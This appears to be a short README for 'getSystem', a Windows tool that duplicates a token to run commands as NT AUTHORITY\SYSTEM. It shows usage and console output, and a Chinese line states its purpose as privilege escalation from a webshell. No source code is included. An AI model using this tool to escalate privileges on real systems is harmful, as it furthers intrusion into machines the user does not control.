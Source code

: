 # getSystem

```
> getSystem.exe
[+] getSystem Modify by Uknow
[+] usage: getSystem command
[+] eg: getSystem "whoami /all"

> getSystem.exe "whoami"
[+] getSystem Modify by Uknow
[+] Token Duplicated
[+] CreatePipe success
[+] Command : "c:\Windows\System32\cmd.exe" "/c whoami"
[+] Process with pid: 3772 created.
==============================

nt authority\system
```

![a](https://github.com/uknowsec/getSystem/blob/master/JUgYF0.png)

webshell下提权执行命令 Reference:https://github.com/yusufqk/SystemToken
